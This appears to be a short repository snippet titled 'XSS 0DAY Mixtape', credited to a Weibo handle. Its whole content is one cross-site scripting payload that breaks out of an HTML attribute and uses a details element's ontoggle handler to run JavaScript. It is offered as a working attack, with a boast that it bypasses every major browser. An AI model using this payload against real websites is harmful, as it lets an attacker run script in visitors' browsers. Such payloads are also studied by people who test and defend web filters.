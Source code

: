 # XSS 0DAY Mixtape - weibo@flagellantX
">'><details/open/ontoggle=confirm('flagellantX')> //Bypass All Browser Like Chrome,Firefox,Yandex,all...
